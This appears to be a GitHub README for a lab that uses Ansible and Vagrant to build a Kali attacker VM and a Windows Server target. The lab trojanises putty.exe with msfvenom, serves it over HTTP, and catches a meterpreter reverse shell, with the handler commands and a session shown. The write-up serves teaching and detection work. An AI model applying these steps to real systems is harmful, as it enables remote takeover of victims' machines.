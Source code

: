 # DevSecOps With Ansible

An example on how Ansible can be used in a DevSecOps Workflow

## What is DevSecOps?

https://www.redhat.com/en/topics/devops/what-is-devsecops

## What is Ansible?

https://www.redhat.com/en/technologies/management/ansible/get-started

## Running in your environment

Prerequisites: You will need Ansible, Vagrant and VirtualBox installed on your workstation.

So after that just go to the "hack" directory and run the scrip: create_attacker_env.sh. This will create a virtual machine with Kali Linux and thus automate the malware infection of an executable "putty.exe" using "msfvenom". It will also make this malware available on the apache web server to be consumed via HTTP. 

After that in the "hack" directory run the ssh_attakcer.sh. This will ssh to the Kali Linux virtual machine. Finally open msfconsole and run the steps to "wait" for the malware to run on the Windows machine.

```
msfconsole
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp
set lhost 10.0.0.190
set lport 1234
show options 
exploit 
```

Now run the create_target_env.sh script, this will create a Windows Server and configure Ansible. After that, the malware will be downloaded and will infect the Windows server.

At this point you will have access to the reverse shell on the Kali virtual machine and will be able to execute any command on the Windows Server.

The purpose of this lab is to show you how you can use Ansible to automate the creation, execution and detection of Malware and any kind of threats, whether in Windows or Linux environments. You can run "sysinfo" for example and you will see information related to Windows Server.

```
meterpreter > sysinfo
Computer        : TARGET
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
meterpreter > 
```

Ps: Soon I will add the Ansible roles for threat detection.

![DevSecOps](images/00.png)

![DevSecOps](images/01.png)

![DevSecOps](images/02.png)

![DevSecOps](images/03.png)


